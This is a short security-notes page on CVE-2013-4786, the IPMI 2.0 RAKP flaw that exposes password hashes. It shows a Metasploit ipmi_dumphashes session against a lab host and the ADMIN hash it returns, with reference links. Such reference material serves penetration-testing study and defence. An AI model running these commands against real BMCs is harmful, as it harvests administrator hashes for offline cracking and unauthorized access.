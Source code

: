 ```yaml
---
title : "CVE-2013-4786"
# pre : ' '
description : "The IPMI 2.0 specification supports RMCP+ Authenticated Key-Exchange Protocol (RAKP) authentication, which allows remote attackers to obtain password hashes and conduct offline password guessing attacks by obtaining the HMAC from a RAKP message 2 response from a BMC."
date : 2020-05-06T09:32:00+02:00
# hidden : true
# draft : true
weight : 40
# tags : ['']
---
```


---

## IPMI Password hash retrieval

### Exploit

```plain
msf5 use auxiliary/scanner/ipmi/ipmi_dumphashes
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.10.12
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.10.10.12:623 - IPMI - Hash found: ADMIN:84eaac57180000006c2ad3df7e0a746f542cf3232b7a3b0ee20f4eff[...]00140541444d494e:361d72b683182e7adf0478d7113f30443988b8d0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## URL List

- [Tenable.com](https://www.tenable.com/cve/CVE-2013-4786)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2013-4786)
